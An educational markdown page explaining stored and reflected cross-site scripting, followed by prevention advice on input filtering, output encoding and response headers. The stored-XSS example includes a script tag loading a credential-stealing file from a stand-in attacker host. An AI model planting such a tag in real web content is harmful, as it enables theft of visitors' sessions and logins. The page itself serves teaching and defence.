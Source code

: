 ## Cross Site Scripting (XSS)

XSS attacks are a type of injection in which malicious scripts are injected into benign/trusted websites. Occurs when an attacker uses a vulnerable web application to send malicious code, generally in the form of browser side script, to end users. This can happen anywhere when a web application uses input within the output it generates without validating or encoding it.

Browsers have no way to know that the script should not be trusted and hence, will execute script. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. Allows the attacker to carry out any actions the user is able to perform.

<img src="../assets/XSS.png">

## XSS Types

### Stored (Persistent)

Stored XSS occurs when a malicious script is injected directly into a vulnerable web application and permanently stored. Most frequent targets are websites that allow users to share content/comments/messages (blogs, videos, social networks). Each time the infected page is viewed, the malicious script is transmitted to the victim's browser.

For instance, if an e-commerce website allows users to embed HTML in the comments section, the embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code everytime the page is opened.

```
Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.
```

### Reflected

Reflected XSS are those where the injected script is reflected off the web server, such as in an error message, search results, or other response that includes some or all of the input sent to the server as part of the request. Attacks are delivered to victims via another route, such as an email message or malicious link. The injected code travels to the vulnerable website, which reflects the attack back to the user's browser.

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>

https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

## Prevention/Mitigation

### Filter input on arrival

At the point where user input is received, filter as strictly as possible based on what is expected or valid input.

### Encode data on output

If user-controlled data is output in HTTP responses, encode the output to prevent it from being interpreted as active content.

### Use appropriate response headers

To prevent XSS in HTTP responses that are not intended to contain HTML/JS, can use Content-Type and X-Content-Type-Options headers to ensure browsers interpret responses correctly.
